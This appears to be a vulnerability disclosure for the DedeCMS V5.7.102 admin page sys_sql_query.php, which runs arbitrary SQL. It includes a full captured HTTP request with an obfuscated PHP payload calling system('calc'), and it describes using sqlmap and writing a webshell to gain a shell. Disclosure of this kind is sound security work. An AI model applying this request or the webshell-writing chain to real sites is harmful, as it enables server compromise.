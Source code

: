 from https://www.dedecms.com/download Download the latest version of DedeCMS V5.7.102 source code
Don't get confused with dedecmsv6. Two different manufacturers are weaving dreams
In sys_ sql_ It is found in query.php that there are no restrictions on the sql query.

![image](https://user-images.githubusercontent.com/40231393/204223553-487d5ae7-8377-43ce-983a-3fc983314af1.png)
![image](https://user-images.githubusercontent.com/40231393/204223568-14b16d67-dec3-4292-bada-6c6753824206.png)

Burp packets:

POST /dede/sys_ sql_ query. php HTTP/1.1
Host: 192.168.31.232
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml; q=0.9,image/webp,*/*; q=0.8
Accept-Language: zh-CN,zh; q=0.8,zh-TW; q=0.7,zh-HK; q=0.5,en-US; q=0.3,en; q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 269
Origin: http://192.168.31.232
Connection: close
Referer: http://192.168.31.232/dede/sys_sql_query.php
Cookie: menuitems=1_ 1%2C2_ 1%2C3_ 1; csrf_ 6cfde2=adc35bfd; PHPSESSID=3oo71kvibfrf6dabg9e4cjkq25; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=98e4e178bbc280ad; DedeLoginTime=1669558059; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=7bf516f891bb262f; _ csrf_ name_ df9cb7dd=fb0e24f4883f49ba392d80998ccc0d54; _ csrf_ name_ df9cb7dd1BH21ANI1AGD297L1FF21LN02BGE1DNG=857c43fa30ee8e38
Upgrade-Insecure-Requests: 1

token=48d602cf201359de513ab6f4976f00a5&dopost=query&querytype=2&sqlquery=select+%3C%3Fphp+%24x%3D%27sys%27%3B%24xx%3D%27tem%27%3B%24xxx%3D%24x.%24xx%3B%24y%3D%27ca%27%3B%24yy%3D%27lc%27%3B%24yyy%3D%24y.%24yy%3B%24xxx%28%24yyy%29+%3F%3E%3B&imageField.x=36&imageField.y=2


When you throw it into the sqlmap, you can see that it is the dba permission. Because my directory is changed by myself, it is not the default directory.

![image](https://user-images.githubusercontent.com/40231393/204223614-dda30490-ad69-4d88-82c7-8878bc3b0ee7.png)

Manual query:

![image](https://user-images.githubusercontent.com/40231393/204223644-f206403f-8b6d-4e58-9893-e1631e2eb21b.png)

Get the root directory of the website according to the results, and use the root directory to write the horse. Although the writing is no return results, it is written in, and the shell is successfully obtained

![image](https://user-images.githubusercontent.com/40231393/204223675-7be29947-2ca1-4b74-b55b-0508672320f5.png)
![image](https://user-images.githubusercontent.com/40231393/204223696-8370b01b-86c4-4f52-b34d-615f154dd124.png)
![image](https://user-images.githubusercontent.com/40231393/204223731-1c9e67f2-6f62-4894-bd72-df6ded19d4a0.png)
